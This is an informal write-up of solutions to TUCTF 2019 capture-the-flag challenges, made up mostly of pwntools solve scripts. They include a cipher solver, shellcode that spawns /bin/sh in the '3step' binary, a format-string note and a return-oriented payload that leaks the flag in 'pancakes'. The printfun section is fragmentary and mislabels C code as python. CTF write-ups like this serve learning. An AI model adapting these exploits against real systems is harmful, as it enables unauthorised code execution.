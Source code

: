 # TUCTF 2019 

![image](https://user-images.githubusercontent.com/25066959/70835878-744da180-1dcc-11ea-9016-c3a200a13f30.png)

This is a shitty writup I did this days after and the TUCTF site was down so no points and I didnt write down the flags... So solutions only with no real explenation... Im just trying to get more of these out there and I really let the ball drop this time.    


Title                         | Category     
----------------------------- | ------------
Crypto Infinit		      | Crypto	     
3step					  | Pwn   
printfun				  | Pwn 
pancakes				  | Pwn

# Crypto Infinit (crypto)    

```python 
#!/usr/bin/env python2
​
from pwn import *
import string
​
p = remote("chal.tuctf.com", 30102)
​
# Level 0 - 4
for i_ in range(5):
​
    p.sendlineafter("Give me text:", string.ascii_uppercase[::-1])
    p.recvuntil("encrypted is ")
    mapping = dict(zip(p.recvline().strip().split(" "), string.ascii_uppercase[::-1]))
​
    for i in range(50):
        p.recvuntil("Decrypt ")
        encrypted = p.recvline().strip().split(" ")
​
        answer = ""
        for k in encrypted:
            answer += mapping[k]
​
        p.sendline(answer)
​
​
# Level 5
plaintext = ''.join([c * 8 for c in string.ascii_uppercase])
p.sendlineafter("Give me text:", plaintext)
p.recvuntil("encrypted is ")
​
mapping = {}
enc = p.recvline().strip().split(" ")
for i in range(len(enc)):
    mapping[i % 8] = mapping.get(i % 8, {})
    mapping[i % 8][enc[i]] = plaintext[i]
​
print mapping
for i in range(50):
    p.recvuntil("Decrypt ")
    encrypted = p.recvline().strip().split(" ")
​
    answer = ""
    for i, k in enumerate(encrypted):
        answer += mapping[i % 8][k]
​
    p.sendline(answer)
​
# for i_ in range(5):
​
#     p.sendlineafter("Give me text:", string.ascii_uppercase[::-1])
#     p.recvuntil("encrypted is ")
#     mapping = dict(zip(p.recvline().strip().split(" "), string.ascii_uppercase[::-1]))
​
#     for i in range(50):
#         p.recvuntil("Decrypt ")
#         encrypted = p.recvline().strip().split(" ")
​
#         answer = ""
#         for k in encrypted:
#             answer += mapping[k]
​
#         p.sendline(answer)
​
p.sendlineafter("Give me text:", "ABAB")
p.interactive()
```     

# 3step (pwn)    

```python
#!/usr/bin/python
from pwn import *
import sys
#context.log_level = "debug"
#p = process("./3step")
p = process("nc chal.tuctf.com 30504".split(" "))
raw_input("waiting... ")
p.readline()
p.readline()
heap = int(p.readline(), 16)
stack = int(p.readline(), 16)
print "heap = {}".format(hex(heap))
print "stack = {}".format(hex(stack))

code = """
xor eax, eax
mov ebx, {}
xor ecx, ecx
xor edx, edx
mov al, 0x0b
int 0x80""".format(stack)
shellcode = asm(code)
print len(shellcode)
binsh = "/bin/sh\x00"
heap = p32(heap)
tot = ""

tot += shellcode + (0x12 - len(shellcode)) * 'a'
tot += binsh + (0x10 - len(binsh)) * 'a'
tot += heap
p.recv()
p.send(tot)
#p.send(shellcode)
#p.send("/bin/sh\x00")
#p.send(p32(heap))
p.interactive()


p.kill()
```

# printfun (pwn)
this challenge was a format sring vulnerability 

```python
#!/usr/bin/python
# ebp - 0xc
# ebp - 0x10
```    
output:
```
# 6
4
%6$s
# 7
60
\x95\xa4\x14F\xfe\xfe��M\x96UF\x11Ǧ\x89�#\x18X\xb7\x87\x84$\xbb�
                                                                \xaaƓ\x1c@\x17?�U\x04i
\x07�Ub)\x0b\xb7\xb6\x03y\xbe\xac\x1d7\x7f\x97\xfe
```    
exploit:   
```python
#include <stdio.h>
#include <stdlib.h>

int main()
{
  int n;
  scanf("%d", &n);
  srand(n);
  printf("%d\n", rand());
  return 0;
}
```    

# Pancakes (Pwn)
I remember being given the password it was password the payload is this:   
```python
#!/usr/bin/python
from pwn import *
payload = 'a' * (0x30-4)
payload += p32(0x8049060) # puts
payload += p32(0x80492cd) # pwnme
payload += p32(0x804c060) # flag
print payload
```    
